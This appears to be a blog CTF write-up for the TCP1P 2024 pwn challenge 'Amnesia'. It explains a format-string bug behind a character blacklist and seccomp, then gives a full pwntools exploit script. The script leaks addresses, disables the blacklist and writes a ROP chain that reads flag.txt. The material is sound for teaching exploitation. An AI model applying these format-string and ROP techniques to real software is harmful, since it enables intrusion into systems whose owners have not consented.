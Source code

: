 ```yaml
---
title: TCP1P 2024 - Blind
date: 2024-10-12
categories: [CTF, writeup]
tags: [ctf, writeup, TCP1P]     # TAG names should always be lowercase
---
```


<center><h1>TCP1P 2024 - My PWN Write-Ups</h1></center>

This weekend I have been participating solo in the TCP1P CTF 2024. I really enjoyed this CTF. I ended up solving some pretty good challenges and finished in 23rd place. As always, I focused on PWN, and here are my Write-Ups for the best challenges I solved.  
![Amnesia](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/Puntuacion.png)

## Amnesia
![Puntuacion](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/amnesia.png)


- **Category:** Pwn.  
- **Points:** 221
- **Solves:** 11  
- **Author:** itoid  

## Description
Amnesia is the typical challenge with a vulnerable format string, but with certain limitations to make our life a bit harder. The program has a first format string that accepts up to 188 characters, after which there is a loop that runs infinitely until we decide to terminate the program by writing **I remember everything!**. Inside that loop, there is another vulnerable format string, but it only accepts up to 32 characters. The format strings are checked against a blacklist that prohibits the use of the characters $, p, and x. The file has all the typical protections enabled and the syscalls **execve** and **execveat** are prohibited by seccomp.   
```sh
➜  Amnesia checksec amnesia
[*] '/home/elchals/CTFs/Tcp1p/Amnesia/amnesia'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
```  

I take advantage of the first format string to get all the necessary leaks: Text base, Libc base, and Stack. Since p and $ are prohibited, I have to use %c and %ld.  
With the following format string, I am going to overwrite the blacklist, because since I now only have 32 characters in the format string and can't use $, it becomes impossible to do anything more useful. In the first iteration, I overwrite the $ with any number.  
```py
payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
```
And in the second iteration, since I can now use $, I place a NULL byte to disable the blacklist.  
```py
payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
```
From now on, since we can use the $, I write a ROP chain starting from the return address of the function to open the flag.txt, read, and write its content. I write it character by character since 32 bytes aren't enough for anything more.  
Finally, by writing **I remember everything!**, I trigger the termination of the program and the execution of the ROP chain.  

## Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './amnesia_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "ctf.tcp1p.team"
PORT = 20037

######################################################################################

gdb_script = f'''
    breakrva 0x16d5
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT)
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path], aslr=False)
    return p

## Write one byte.
def change_byte(addr, b):
    if b == 0:
        b = 0x100
    payload = f'%{b}c%11$hhn'.encode().ljust(24, b'\x41')
    payload += p64(addr)
    print(payload)
    p.sendlineafter(b'remember?', payload)

######################################################################################

p = connect()

## Leaking things
payload  = b'%c' * 2
payload += b'||%ld||'
payload += b'%c'
payload += b'||%ld||'
payload += b'%c' * 35
payload += b'%||%ld||'

p.sendlineafter(b'you?', payload)
p.recvuntil(b'||')
libc.address = int(p.recvuntil(b'||')[:-2]) - (0x70fe15514887 - 0x70fe15400000)
print("[i] Libc Address:", hex(libc.address))

p.recvuntil(b'||')
stack = int(p.recvuntil(b'||')[:-2])
print("[i] Stack:", hex(stack))

rip = stack + (0x7ffcb0edf088 - 0x7ffcb0edea30) 
print("[i] RIP:", hex(rip))

p.recvuntil(b'||')
elf.address = int(p.recvuntil(b'||')[:-2]) - (0x5b435bdd36f7 - 0x5b435bdd2000)
print("[i] .text:", hex(elf.address))

## Overwriting Blacklist
format = elf.address + (0x65066ca92010 - 0x65066ca8e000)    # Blacklist address

payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

## Writing flag.txt to bss section
bss = elf.address + (0x63e12b96f000 - 0x63e12b96b000) + 0x900
print("[i] BSS:", hex(bss))

flag = b'flag.txt\x00'
idx = 0
for b in flag:
    change_byte(bss + idx, b)
    idx += 1

## ROP
context.arch = 'amd64'
rop_libc = ROP(libc)

pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
ret      = p64(rop_libc.find_gadget(['ret'])[0])
pop_rdx_rbx  = p64(libc.address + 0x00000000000904a9) # pop rdx ; pop rbx ; ret
pop_rax  = p64(rop_libc.find_gadget(['pop rax', 'ret'])[0])
push_rax = p64(libc.address + 0x0000000000041563) # push rax ; ret
mov_edi_eax = p64(libc.address + 0x000000000012684c) # mov edi, eax ; call rdx

payload  = pop_rdi
payload += p64(bss)
payload += pop_rsi
payload += p64(0)
payload += p64(libc.sym.open)

payload += pop_rdx_rbx
payload += pop_rsi * 2
payload += mov_edi_eax
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.write)

idx = 0
for b in payload:
    change_byte(rip + idx, b)
    idx += 1

p.sendlineafter(b'remember?', b'I remember everything!')

######################################################################################

p.interactive()
```
